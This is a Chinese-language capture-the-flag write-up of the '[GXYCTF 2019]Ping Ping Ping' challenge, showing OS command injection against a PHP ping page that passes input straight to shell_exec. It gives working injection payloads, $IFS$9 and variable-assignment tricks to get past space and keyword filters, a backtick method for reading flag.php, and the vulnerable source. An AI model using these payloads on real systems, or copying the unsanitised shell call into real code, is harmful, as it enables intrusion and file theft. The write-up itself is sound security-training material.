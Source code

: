 [GXYCTF 2019\]Ping Ping Ping | NSSCTF](https://www.nssctf.cn/problem/1096)
![image](https://github.com/user-attachments/assets/5f984538-9e63-4a91-899e-c9490e9544c2)
> ping的题目，看了一些知识点拿来练练

![image](https://github.com/user-attachments/assets/5e80ee1d-ec67-4c32-a3d5-61ac98b0ecd9)

> 先来随便ping一下

```
127.0.0.1
```

得到

![image](https://github.com/user-attachments/assets/94361425-da5d-432c-883c-3ffd564ee5a8)

> 再尝试一下添加管道符加其他指令

![image](https://github.com/user-attachments/assets/10f31790-ce1a-40ea-9a2e-7c8f0e1444f4)

> [!IMPORTANT]
发现目录下有两个php文件，有我们需要的flag

> 尝试能不能获取flag

ping `127.0.0.1|cat flag.php`

![image](https://github.com/user-attachments/assets/9f40e914-1b6a-4666-ac3d-d08e1268c664)

> **发现可能是空格被过滤了**

**比如**

1. 使用 `${IFS}` 代替空格

2. 使用 `< `或 `>` 重定向符号

3. 使用` {cat,flag.php}` 语法

4. 使用 `$()` 或反引号执行命令

5. 使用 `%09（Tab 字符）`代替空格

都会被过滤

贴张图

![image](https://github.com/user-attachments/assets/ae17d744-c7fb-4fa7-a97b-f17612975d51)

### 法一

> [!TIP]
使用$IFS$9绕过

> 先看看index.php里面源码写了啥

查看源码

``` php
	<?php
	if(isset($_GET['ip'])){
		$ip = $_GET['ip'];
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			print_r($match);
			print($ip);
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "<pre>";
		print_r($a);
	}

	?>
```

> [!IMPORTANT]
源码里面有过滤规则

- /.*f.*l.*a.*g.*/只要匹配到这四个字符组合在一起就显示fxck your flag!了
- 可以采取变量赋值的方式来做

输入 ping `127.0.0.1;q=g;cat$IFS$9fla$q.php`

再次查看源码

![image](https://github.com/user-attachments/assets/99ff9d0f-3f88-497e-a744-3ec90aed297f)

拿到flag

**NSSCTF{9cd25729-d16e-462c-976d-c4a5cb055b8b}**

### 法二

> [!TIP]
这个方法比较巧妙

***使用反引号绕过***

==**原理：**==

**linux下，会先执行反引号下面的语句
在这里会执行ls,ls的结果是“index.php flag.php”
所以最后执行的语句等价于
cat index.php flag.php**

试验一下

ping一下

![image](https://github.com/user-attachments/assets/08a85a49-f342-4e2a-9125-0867b84f8c01)

也是成功拿到flag

![image](https://github.com/user-attachments/assets/57a9377f-f349-4a9a-bf85-552bf28eae09)
